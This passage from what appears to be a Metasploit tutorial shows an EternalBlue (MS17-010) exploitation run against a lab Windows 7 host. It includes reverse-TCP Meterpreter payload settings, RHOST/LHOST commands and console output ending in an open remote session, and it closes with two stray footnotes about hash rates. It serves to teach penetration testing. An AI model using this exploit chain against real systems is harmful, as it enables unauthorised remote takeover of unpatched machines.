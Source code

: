 Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.19.146.158   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
</code></pre>

Two important options to check here are `RHOST` and `LHOST`. The first is the remote host, while the second is the local host that a reverse shell should connect to. You can see that it selected a Meterpreter TCP Reverse Shell by default. Let's set up both of these options:

```sh
# Remote target
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 10.10.212.158
RHOST => 10.10.212.158
# Local listener
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.8.47.141
LHOST => 10.8.47.141
```

Afterward, we `run` it which will start a **listener** on port 4444 and accept connections on the specified IP address. Then the exploit itself will be **checked** on the target to test if it is vulnerable, and finally, it performs the Remote Code Execution exploit to trigger the reverse shell payload. After some time (and possibly failed attempts) we see it succeed with a newly created session:

<pre class="language-sh"><code class="lang-sh"><strong>msf6 exploit(windows/smb/ms17_010_eternalblue) > run
</strong>
[*] Started reverse TCP handler on 10.8.46.141:4444
[*] 10.10.212.158:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.212.158:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.212.158:445     - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.212.158:445 - The target is vulnerable.
...
[*] 10.10.212.158:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 10.10.212.158
[*] Meterpreter session 1 opened (10.8.46.141:4444 -> 10.10.212.158:49164) at 2023-06-29 21:47:47 +0200
[+] 10.10.212.158:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.212.158:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.212.158:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

<strong>meterpreter >
</strong></code></pre>

We find ourselves in a shell on the machine, where we can perform [#meterpreter](metasploit.md#meterpreter "mention") commands like `getsystem` or start a `cmd.exe` process using `shell`.&#x20;

## Exploits & Payloads

Metasploit has a wide variety of **exploits**, made easily exploitable thanks to **payloads**. You can view all exploits using `show exploits`, which is a collection of many CVE proofs of concepts from ancient to modern. These scripts are highly specific and often only work on very specific unpatched versions of software. \
Payloads on the other hand are very generic and are delivered through exploits. You can view these with `show payloads`. A payload might be a reverse or bind shell for Windows, that can be used in many different exploits as a final result. There are many different types of payloads depending on OS, architecture, usability, and method. Here are a few common terms you'll find:


[^1]: 1.2 billion hashes per second
[^2]: 9 billion hashes per second